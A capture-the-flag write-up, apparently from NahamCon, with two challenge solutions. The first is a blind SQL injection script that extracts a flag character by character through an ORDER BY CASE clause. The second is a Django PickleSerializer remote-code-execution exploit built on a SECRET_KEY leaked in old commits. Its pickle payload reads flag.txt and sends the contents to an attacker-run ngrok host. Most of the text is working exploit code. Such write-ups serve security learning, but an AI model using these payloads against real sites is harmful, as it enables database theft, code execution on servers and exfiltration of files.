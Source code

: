 ```
    # print(s, type(s))
    flag = ''
    for i in range(1, 100):
        h1 = len(flag)
        for k in s:
            if len(flag) > h1:
                continue
            data = {'search': '',
                    'order': f"(CASE WHEN (SELECT (SUBSTR(flag, {i}, 1)) from flag ) = '{k}' THEN name ELSE atomic_number END)--"}
            # print(f'checking {data.values()}')
            x = requests.post(url, data=data)
            if BeautifulSoup(x.text, features='lxml').td.contents[0] == '89':
                flag += k
        print(flag)
        if flag[-1] == '}':
            break
```

```
flag{order_by_blind}
```

### Poller:

_Have your say! Poller is the place where all the important infosec questions are asked._

there is a github link in cource code: https://github.com/congon4tor/poller 

from looking at commit we know this is vulnerable to django PickleSerializer RCE and we also 
found secret_key in previous commits there is also one fake key 

SECRET_KEY = `77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!`

we can get the revese shell here but i don't have vps so we go the easy way we know the file name is flag.txt
first i created local server with python : `python -m http.server 80`

and expose it to internet with ngrok : `ngrok http 80`

now we craft our payload in a way that it will read file content and make a request 
to our server with that file content in GET request here is final exploit in python :

```python
from django.conf import settings as _settings
from django.core.signing import loads, dumps
from django.contrib.sessions.serializers import PickleSerializer
from urllib.request import urlopen
import os
from sys import argv
import requests

class Rce():
    def __reduce__(self):
        import requests
        return (exec,("import requests;s = 'n=1&s=' + open('flag.txt').read();requests.get(f'https://669d-49-34-53-197.in.ngrok.io/hello?{s}');import time;time.sleep(13)",))
        # return exec(f'import time;time.sleep(99)')

SECRET_KEY = '77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!'
salt = 'django.contrib.sessions.backends.signed_cookies'
c_url = 'http://challenge.nahamcon.com:31050/'
cookie = '.eJxNjE0KwjAUhHXhUgRPoZuQ5DWa7MS9Zwj5ebFVaaBpl4IHyDKewytaUaGzGZjvYx6L52v2zb1s8lKboa_1kLDTjS95DiWvJ5s17ortCLb-YtpzJC62fddY8lHIjyZyih5vx7-7mhzUJtUlHwRF9JRKxZgNyqFHIYKUY1dMAefAg6IIaLiVogK2d0h3gJXlAQ04VgbyBgKeP5Q:1nlwXO:fHckutyzxCaT3Hb8w56AHnlhu2_4UmbA7rvjo4tKU7s'
_settings.configure()
content = loads(cookie, key=SECRET_KEY, serializer=PickleSerializer, salt=salt)
```